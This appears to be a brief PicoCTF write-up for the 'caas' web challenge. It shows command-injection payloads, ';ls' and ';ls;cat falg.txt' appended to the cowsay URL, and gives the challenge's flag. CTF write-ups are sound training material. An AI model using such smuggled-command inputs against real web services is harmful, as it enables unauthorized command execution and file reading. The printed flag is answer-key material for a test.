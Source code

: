 # WriteUp PicoCTF

# caas - Web Exploition

## Statement
![](Images/caas.jpg)
Link to that website [cass](https://caas.mars.picoctf.net/cowsay/message)

## Solution
With cowsay service, we have a linux commands vulnerability.
Try with this payload [https://caas.mars.picoctf.net/cowsay/message;ls](https://caas.mars.picoctf.net/cowsay/message;ls) and we have:

![](Images/caas1.png)

Here we see the falg.txt. Cat this file with the payload [https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt](https://caas.mars.picoctf.net/cowsay/message;ls;cat%20falg.txt) and we have:

Images/caas2.png)

## Flag
>**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**